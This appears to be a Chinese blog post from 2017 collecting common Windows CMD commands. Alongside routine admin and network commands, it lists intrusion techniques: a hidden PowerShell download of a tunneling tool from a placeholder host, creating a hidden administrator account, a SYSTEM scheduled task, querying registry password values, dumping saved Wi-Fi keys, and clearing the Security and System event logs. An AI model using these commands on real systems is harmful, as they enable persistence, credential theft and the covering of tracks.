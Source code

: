 ```yaml
---
title: Windows常用命令
date: 2017-03-08 20:21:00
comments: true
tags: windows
categories: 技术交流
---
```

<blockquote class="blockquote-center">除苦练内功之外，别无他法。
</blockquote>

分享一些自己常用的windows命令，本文会持续更新，全当笔记备份。本文大部分内容来自互联网整理汇总，小部分来自个人经验所总结。
<!--more -->
### CMD常用命令

下载远程文件：
```bash
powershell -w hidden -c (new-object System.Net.WebClient).Downloadfile('http://www.xxx.com/lcx.1','d:\\3.txt')
```
```bash
bitsadmin /transfer myDownLoadJob /download /priority normal "http://www.xxx.com/1.zip" "c:\1.zip"
```
添加隐藏账号：
```bash
net user test$ test /add       添加test用户密码为test的隐藏账号
net localgroup administrators test$ /add 把test添加到系统用户组
```
列出更新的补丁：
```bash
wmic qfe list full /format:htable > hotfixes.htm
wmic qfe get description,installedOn
```
在d盘根目录递归查找login.html文件：
```bash
cd /d d: && dir login.html /a-d/b/s   
```
进入某盘符的某个目录下：
```bash
d: & cd d:/Clover
```
重新打开一个cmd运行：
```bash
cmd /c  whoami 
```
添加计划任务：
```bash
schtasks.exe  /Create /RU "SYSTEM" /SC MINUTE /MO       
45 /TN FIREWALL /TR "c:/1.ex    e" /ED 2016/12/12
可以把RU里面的system改为自己的账户名称，这样就可以执行添加计划任务了
```
进程相关：
```bash
tasklist   查看进程
taskkill /im 进程名称
taskkill /pid[进程码] -t(结束该进程) -f(强制结束该进程以及所有子进程)
```

查看windows系统未打的漏洞补丁：
```bash
set KB2829361=MS13-046&set KB2830290=MS13-046&set KB2667440=MS12-020&set KB2667402=MS12-020&set KB3124280=MS16-016&set KB3077657=MS15-077&set KB3045171=MS15-051&set KB2592799=MS11-080&set KB952004=MS09-012 PR&set KB956572=MS09-012 巴西烤肉&set KB970483=MS09-020 iis6&set KB2124261=MS10-065 ii7&set KB2271195=MS10-065 ii7&systeminfo>a.txt&(for %i in (KB952004 KB956572 KB2393802 KB2503665 KB2592799 KB2621440 KB2160329 KB970483 KB2124261 KB977165 KB958644 KB2667402 KB2667440 KB2830290 KB2829361 KB3045171 KB3077657 KB3124280) do @type a.txt|@find /i "%i"||@echo %%i% Not Installed!)&del /f /q /a a.txt
```
获取保存在注册表中密码的键值：
```bash
REG query HKCU  /v "pwd" /s  #pwd可替换为password \ HKCU 可替换为HKCR
```
识别开机启动的程序:
```bash
wmic startup list full
```
识别网卡中的IP与Mac：
```bash
wmic nicconfig get ipaddress,macaddress
```
查看共享服务：
```bash
wmic share get name,path
net share
```
查看系统中日志的位置：
```bash
wmic nteventlog get path,filename,writeable
```
删除日志：
```bash
wevtutil cl "windows powershell"
wevtutil cl "security"
wevtutil cl "system"
```
运行的服务：
```bash
sc query type= service
net start
```
安装的软件以及版本：
```bash
wmic product get name,version
```
查看某个进程的详细情况：
```bash
wmic process where name="chrome.exe" list full
```
显示系统中曾连接过的无线密码：(以管理员身份运行)
```bash
netsh wlan show profiles
netsh wlan show profiles name="profiles的名字" key=clear
```
一键获取：
```bash
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
```
查看是否为虚拟机：
```bash
wmic bios list full | find /i "vmware"
```
是否支持powershell:
```bash
if defined PSModulePath (echo 支持powershell) else (echo 不支持powershell)
```
电脑产品编号与型号信息：
```bash
wmic baseboard get  Product,SerialNumber
```

### CMD局域网命令

arp -a 列出本网段内所有活跃的IP地址
arp -a 加对方IP是查对方的MAC地址
arp -s （ip + mac）绑定mac与ip地址
arp -d （ip + mac）解绑mac与ip地址

net view                  ------> 查询同一域内机器列表
net view /domain    ------> 查询域列表
net view /domain:domainname  -----> 查看workgroup域中计算机列表

ipconfig /all            ------> 查询本机IP段，所在域等
ipconfig /release
ipconfig /renew    重新获取Ip地址

telnet ip 端口号：尝试能否打开链接远程主机端口 nbtstat -a 加对方IP查对方的主机名
tracert 主机名   得到IP地址

netstat -a -n
netstat -an | find "3389"
netstat -a查看开启哪些端口
netstat -n查看端口的网络连接情况
netstat -v查看正在进行的工作
netstat -p tcp/ip查看某协议使用情况
netstat -s 查看正在使用的所有协议使用情况

nbtstat -n 获取NetBIOS
nslookup 域名   查询域名对应的ip

### DO常用快捷键

mspaint　　画图工具
calc　　计算机
notepad　　记事本
taskmgr　　任务管理器
osk　　打开屏幕键盘
gpedit.msc　　组策略
services.msc　　本地服务
compmgmt.msc　　计算机管理
devmgmt.msc　　设备管理器
winver　　查看系统版本
magnify　　放大镜实用程序
eventvwr　　事件查看器
Regedit　　打开注册表
resmon　　资源监视器
WMIC BIOS get releasedate　　查看电脑生产日期
mstsc -f　　远程连接（可以全屏）


*本文将持续收集更新，欢迎大家留言补充！*